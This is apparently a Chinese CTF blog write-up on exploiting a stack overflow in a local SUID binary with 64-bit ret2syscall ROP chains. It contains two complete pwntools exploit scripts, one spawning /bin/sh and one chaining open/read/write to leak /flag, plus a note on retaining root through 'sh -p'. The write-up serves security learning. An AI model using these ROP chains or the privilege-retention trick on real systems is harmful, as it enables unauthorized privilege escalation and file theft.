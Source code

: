 ﻿---
layout:     post
title:      栈溢出实现open，read，write
subtitle:   
date:       2023-11-11
author:     Kody Black
header-img: img/post-bg-normal.jpg
catalog: true
tags:
    - pwn
---

其实没啥特别的，就是一个ret2syscall，但是之前也没做过64位的，所以也补充记录一下：

首先，把需要的库文件放到当前目录，并补充LD_LIBRARY_PATH

```bash
❯ ./lyl
./lyl: error while loading shared libraries: libcapstone.so.5: cannot open shared object file: No such file or directory
❯ export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:.
❯ checksec --file=./lyl
[*]
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序很简单，有一个read没有限制输入长度，可以栈溢出，而且还会输出buf的地址。

![16997105730641699710572282.png](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/16997105730641699710572282.png)

看到RSI和RBP相距0x90，确定溢出长度。

```bash
❯ ROPgadget --binary ./lyl --only "syscall"
Gadgets information
============================================================
0x0000000000401e46 : syscall

Unique gadgets found: 1
```

有syscall，进行ret2syscall即可，poc如下：

```py
from pwn import *

# context.log_level = 'debug'
p = process("./lyl")

# 0x0000000d000401e46 : syscall
# 0x0000000000401e36 : pop rsi ; ret
# 0x0000000000401e3e : pop rdi ; ret
# 0x0000000000401e26 : pop rdx ; ret
# 0x0000000000401e2e : pop rax ; ret

syscall = 0x401E46
pop_rsi = 0x401E36
pop_rdi = 0x401E3E
pop_rdx = 0x401E26
pop_rax = 0x401E2E

p.recvuntil("located at: ")
buf_addr = int(p.recvline()[:-2], 16)
success("buf_addr = " + hex(buf_addr))

# gdb.attach(p , 'b read')
payload = (
    b"/bin/sh\x00"
    + b"a" * 136
    + b"deadbeef"
    + p64(pop_rdi)
    + p64(buf_addr) # execve第一个参数是文件名，这里传入buf_addr
    + p64(pop_rsi)
    + p64(0) # execve第二个参数是argv，这里传入空指针
    + p64(pop_rdx)
    + p64(0) # execve第三个参数是envp，这里传入空指针
    + p64(pop_rax)
    + p64(0x3b) # execve的系统调用号
    + p64(syscall)
)

p.sendline(payload)
p.interactive()
```

但是，得到shell后，我是想得到flag，但是我的shell只是一个普通权限，flag读取需要root权限。

```
❯ ls -al ./lyl
-rwsrw-r-- 1 kody kody 21803 11月 11 14:33 ./lyl
```

注意到该文件有suid属性，但是，大多数现代操作系统和 shell 在处理 SUID 脚本或程序时采取了一些安全措施，通过execve函数执行/bin/sh，得到的shell会放弃额外的权限，仅以实际用户的身份运行。

那么，我们换种思路，不执行sh，直接使用系统调用实现我们的需求：

（open 打开文件，read读取文件到buf，write写文件到标准输出）

```py
from pwn import *

# context.log_level = 'debug'
p = process("./lyl")
binary = ELF("./lyl")

# 0x0000000d000401e46 : syscall
# 0x0000000000401e36 : pop rsi ; ret
# 0x0000000000401e3e : pop rdi ; ret
# 0x0000000000401e26 : pop rdx ; ret
# 0x0000000000401e2e : pop rax ; ret

syscall = 0x401E46
pop_rsi = 0x401E36
pop_rdi = 0x401E3E
pop_rdx = 0x401E26
pop_rax = 0x401E2E

p.recvuntil(b"located at: ")
buf_addr = int(p.recvline()[:-2], 16)
success("buf_addr = " + hex(buf_addr))

# gdb.attach(p , 'b read')
# 构造系统调用open
payload = (
    b"/flag\x00"
    + b"a" * 138
    + b"deadbeef"
    + p64(pop_rdi)
    + p64(buf_addr)
    + p64(pop_rsi)
    + p64(0)
    + p64(pop_rax)
    + p64(2)
    + p64(syscall)
)
# 构造系统调用read
payload += (
    p64(pop_rdi)
    + p64(3) # 因为open打开文件，会返回文件句柄，从3开始
    + p64(pop_rsi)
    + p64(buf_addr)
    + p64(pop_rdx)
    + p64(0x100)
    + p64(pop_rax)
    + p64(0)
    + p64(syscall)
)

# 构造系统调用write
payload += (
    p64(pop_rdi)
    + p64(1)
    + p64(pop_rsi)
    + p64(buf_addr)
    + p64(pop_rdx)
    + p64(0x100)
    + p64(pop_rax)
    + p64(1)
    + p64(syscall)
)

p.sendline(payload)
p.interactive()
```

其实，以如下的方法执行execve，得到的sh是有可能拥有root权限的。

```c
char *argv[] = {"sh", "-p", NULL};
execve("/bin/sh", argv, NULL);
```

解释一下原因，GPT说的很好，就不复述了

> 来解释一下SUID权限。当一个可执行文件被赋予SUID权限后，无论谁运行这个程序，程序都将以文件所有者的权限运行。在你的例子中，如果`a.out`程序拥有SUID权限并且它的所有者是root，那么理论上，无论谁执行这个程序，它都应该以root身份运行。
>
> 然而，这个程序中有一些关键的细节需要考虑：
>
> 1. **源代码**: 程序创建了一个指向`/bin/sh`的新进程。`execve`函数用来执行一个新的程序，替换当前进程的映像、数据和堆栈等。
> 2. **`-p`参数**: 在调用`/bin/sh`时使用的`-p`参数很重要。在很多shell程序中，`-p`参数意味着shell会忽略某些环境变量，例如`$PATH`，这通常是为了安全性。但更重要的是，在某些系统上，当使用`-p`参数启动shell时，如果shell是以SUID程序的一部分启动的，它可能会保持其SUID权限。
> 3. **操作系统的具体行为**: 不同的操作系统和shell版本对SUID程序的处理可能有所不同。一些系统可能会在SUID程序中剥离权限，尤其是在涉及shell的情况下，以防止安全漏洞。
>
> 总的来说，如果操作系统和shell允许，在这种情况下执行的shell可能会保持root权限。但这也极大地依赖于特定的操作系统、shell版本和系统配置。在实际情况中，出于安全考虑，许多现代系统都采用了额外的措施来限制SUID程序的权限，尤其是在它们尝试启动shell时。

试了一下，在ubuntu14中得到的是root权限的shell，而Ubuntu22中只有普通用户权限。
